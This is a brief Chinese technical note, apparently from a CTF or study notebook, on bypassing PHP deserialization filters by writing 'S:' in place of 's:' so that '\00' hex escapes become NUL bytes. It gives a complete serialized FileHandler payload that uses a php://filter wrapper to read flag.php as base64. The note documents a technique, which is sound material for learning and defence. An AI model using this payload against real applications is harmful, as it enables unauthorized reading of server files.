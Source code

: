 通过将序列化文本中的`s:<length>`改为`S:<length>`来启用16进制转义

例如
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
中`\00`就被转义成了`NUL`这个字符
#Web #PHP #ASCII #反序列化 #绕过